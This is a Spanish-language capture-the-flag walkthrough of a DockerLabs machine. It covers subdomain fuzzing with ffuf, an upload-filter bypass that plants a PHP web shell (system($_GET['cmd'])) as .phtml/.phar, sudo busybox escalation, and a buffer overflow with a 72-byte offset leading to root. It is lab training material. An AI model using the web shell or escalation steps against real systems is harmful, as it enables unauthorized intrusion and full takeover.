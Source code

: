nmap: 80

![image](https://github.com/user-attachments/assets/ff3cd078-fc1e-459c-8639-086836758977)

entramos a la pagina y no estaba encontrando nada y viendo el apache2 vi esto:

![image](https://github.com/user-attachments/assets/815b9f3b-7096-4316-816c-ec053989f3d7)

encontré que podemos agregarlo como .dl, si entramos veremos la misma pagina, intente con gobuster otra vez pero no me dio nada asi que lanzamos un fuzzing 

      ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.5eek3r.dl" -fs 10705

![image](https://github.com/user-attachments/assets/0ea7d491-d1d2-4b82-abbe-d8a190225222)

obtenemos un "crosswords", como es subdominio lo añadimos al host

![image](https://github.com/user-attachments/assets/7857eb8e-95e8-4700-a735-8f632a5578bb)

y obtenemos

![image](https://github.com/user-attachments/assets/0b6ce348-1d7c-4119-979d-682891662c06)

si ingresamos solo lo codifica. vamos al código fuente  

![image](https://github.com/user-attachments/assets/355c76f4-cdb2-41ca-aede-4059fa21d72a)

capturo con burpsuite pero no encuentro nada, o sea las solicitudes me dan las mismas que la web en si, así que seguimos buscando

lo que podríamos intentar como ya encontramos un subdominio, buscar otro subdominio 

     ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://5eek3r.dl -H "Host: FUZZ.crosswords.5eek3r.dl" -fs 10705 
     
y dimos que tenemos un admin

![image](https://github.com/user-attachments/assets/4481fc1b-b557-4923-93de-0bfd13b1a1d5)

lo agregamos y vemos que hay una subida de archivos

![image](https://github.com/user-attachments/assets/50a7e2f4-5984-4e57-bf52-e5faf10a417b)

pero al intentar subir archivos me aparece que no permite .py, asi que probamos otros y dimos que funciona con phtml

      <?php
       system($_GET['cmd']);
       ?>


![image](https://github.com/user-attachments/assets/1e1e1292-d36a-4143-8a7f-27eff711345a)

ahora en la URL colocamos el archivo

no funciono así que probamos algo mas directo y con otra extensión

![[dockerlabs/medio/seeker/test.png]]

![[dockerlabs/medio/seeker/conexion.png]]

obtenemos conexión, pero antes de lanzar la conexión tenemos que lanzarla desde 
> crosswords.5eek3r.dl/shell.phar

dentro veremos como "escalar"

![[dockerlabs/medio/seeker/gt.png]]

buscamos en https://gtfobins.github.io/gtfobins/busybox/#sudo
nos da el comando de sudo 

     sudo busybox sh

lo modificamos 

     sudo -u astu busybox sh

![[dockerlabs/medio/seeker/usuario1.png]]

veremos esto con el usuario astu

![[bas64.png]]

probamos si se puede hacer un ataque de desbordamiento

![[flow.png]]

vemos que se puede, pero como no podemos ver el código por el formato lo pasamos a ghidra, nos pasamos por medio de un servidor el bs64 y veremos algo importante

    printf("Ejecutando /bin/sh");
    setuid(0);
    system("/bin/sh");
    return;

como se ve esta llamando a root por el setuid(0)
creamos como un "código" por decir así para el desbordamiento

     /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400


![[gdb.png]]

veremos que nos da un valor 0x00000000004013d8
y si colocamos ret nos dará el valor: 0x6341356341346341

obtenemos esto el valor 72 

![[gdb2.png]]

lo que es el offset que se buscaba poder un exploit. hacemos el exploit

![[dockerlabs/medio/seeker/exploit.png]]

con los valores que obtuvimos, lanzamos

![[dockerlabs/medio/seeker/root.png]]

y somos root!
